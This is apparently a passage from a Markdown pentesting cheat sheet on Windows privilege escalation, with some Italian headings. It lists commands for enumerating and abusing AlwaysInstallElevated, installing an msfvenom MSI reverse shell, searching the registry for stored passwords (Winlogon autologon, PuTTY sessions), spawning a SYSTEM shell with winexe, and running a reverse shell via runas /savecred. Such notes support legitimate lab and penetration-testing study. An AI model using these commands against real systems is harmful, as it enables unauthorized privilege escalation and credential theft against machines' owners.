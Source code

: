Vulnerable identikit:
1. `AlwaysInstallElevated` pari ad 1 in `HKLM`
2. `AlwaysInstallElevated` pari ad 1 in `HKCU`

Vulnerability enumeration:
- `winpeas.exe systeminfo` - ideal
- manually:
	- `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2> nul` - **Requirement**: value equal to 1
	- `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 2> nul` - **Requirement**: value equal to 1

Exploitation:
- create a MSI reverse shell with *msfvenom*
- installing MSI file:
	- `msiexec /quiet /qn /i <reverse.msi>`

## Passwords

### PasswordsInRegistry

Search "password" string in registry:
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query HKCU /f password /t REG_SZ /s`
- NB: above queries will generate many results so it is often recommended to look in specific locations.

Enumeration:
- `winpeas.exe filesinfo userinfo` - ideal

Special attention:
- Autologon (AKA - `WinLogon`):
	- `reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`
- PuTTY:
	- `reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s`

Spawn shell with newly found credentials:
- `winexe -U '<username>%<password>' --system //<target IP> cmd.exe`

### SavedCreds

`runas` is a Windows command-line tool which allows a user to run specific tools, programs or commands with different permissions than the current user has. If the user's credentials are cached on the system, the `runas` command can be used to flag `/savecred` which will automatically authenticate and execute the command as that user.

Enumeration:
- `winpeas.exe windowscres` - ideal
- `cmdkey /list`

Exploitation:
- create an executable reverse shell with *msfvenom*
- `runas /savecred /user:<username> <path to reverse.exe>`
